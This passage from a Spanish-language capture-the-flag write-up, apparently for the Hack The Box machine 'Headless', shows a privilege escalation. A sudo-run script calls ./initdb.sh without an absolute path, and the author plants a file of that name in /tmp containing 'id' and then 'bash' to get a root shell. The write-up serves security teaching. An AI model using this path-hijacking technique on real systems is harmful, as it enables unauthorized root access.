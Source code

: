Después nos muestra el promedio de carga que tienen los procesos en el sistema:

```bash
➧ /usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}'
 0.08, 0.11, 0.17
```

Y la última parte ejecuta una base de datos si es que esta no está corriendo. PERO, lo hace de una forma curiosa.

```bash
...
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
...
```

Busca entre los procesos del sistema el **PID (ID del proceso)** asignado al script `initdb.sh` usando [pgrep](https://superuser.com/questions/508881/what-is-the-difference-between-grep-pgrep-egrep-fgrep), si no lo encuentra ([**if !**](https://ryanstutorials.net/bash-scripting-tutorial/bash-if-statements.php)) ejecuta el objeto `initdb.sh` para iniciar la base de datos.

SOLO QUE ACÁ PASÓ ALGO!! (¿lo viste?)

Al ejecutar el archivo `initdb.sh` lo hace sin su ruta absoluta (ejemplo `/usr/bin/initdb.sh`), por el contrario, está buscando al objeto `initdb.sh` en la ruta actual (`./`) desde donde se ejecute `/usr/bin/syscheck`, o seaaaaa, podemos crear un archivo con ese nombre y controlar su contenido :O

Vamos a hacer que `initdb.sh` ejecute el comando `id`:

```bash
mkdir /tmp/things
cd /tmp/things

echo "id" > initdb.sh
chmod +x initdb.sh
```

Ejecutamos `/usr/bin/syscheck` con el permiso:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/headless/htb594-shell-as-dvir-bash-sudo-syscheck-id-as-root.png" style="width: 100%;"/>

Ejejeeepale, pues estamos ejecutando comandos como el usuario `root` (ya que si ejecutamos **sudo** solo, toma a **root** por default).

Si queremos obtener una shell es tan sencillo como ejecutar una `bash`:

```bash
echo "bash" > initdb.sh
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/headless/htb594-shell-as-dvir-bash-sudo-syscheck-shell-as-root.png" style="width: 100%;"/>

Tamo' somos administradores del sistema (: Y hemos acabado la máquina.
